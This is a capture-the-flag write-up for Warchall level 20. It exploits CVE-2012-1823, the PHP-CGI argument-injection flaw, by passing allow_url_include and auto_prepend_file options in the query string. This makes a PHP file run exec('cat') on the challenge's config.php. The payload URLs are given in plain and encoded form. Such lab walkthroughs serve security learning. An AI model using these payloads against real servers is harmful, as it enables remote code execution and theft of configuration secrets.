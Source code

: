 ## Level 20 - Warchall: Live RCE (Remote Code Execution)

This challenge involves exploiting a specific vulnerability, namely CVE-2012-1823 (PHP-CGI Remote Code Execution).

### Vulnerability Overview

The vulnerability allows an attacker to execute arbitrary code through PHP-CGI by manipulating the parameters passed to it. Specifically, appending parameters like `?-s` to the URL simulates PHP-CGI parameters such as `/usr/bin/php53-cgi/php-cgi -f index.php -s`.

### Initial Analysis

-  Explore the PHP-CGI options using `php-cgi --help`.
-  Recognize that the target script (`index.php`) includes another file (`config.php`) using the statement `require '../config.php';`.
-  Identify the absolute paths of the files: `/home/level/20_live_rce/www/index.php` and `/home/level/20_live_rce/config.php`.

### Exploitation Steps
-  Use PHP-CGI parameters to define INI entries:
    
    -   `-dallow_url_include=On`: Allows including remote files.
    -   `-dauto_prepend_file=/tmp/2.php`: Specifies a file to include before processing the requested file.
-  Create `/tmp/2.php` with the following content:
```php
<?php
exec("cat /home/level/20_live_rce/config.php", $out);
print_r($out);
?>
```
- Access the target script with the manipulated parameters:
>http://rce.warchall.net/?-dallow_url_include=On+-dauto_prepend_file=/tmp/2.php+-n
- Access the target script with the manipulated parameters and encoded url:
>http://rce.warchall.net/?-dallow_url_include%3DOn+-dauto_prepend_file%3D%2ftmp%2f2.php+-n
- Retrieve the source code of `config.php`
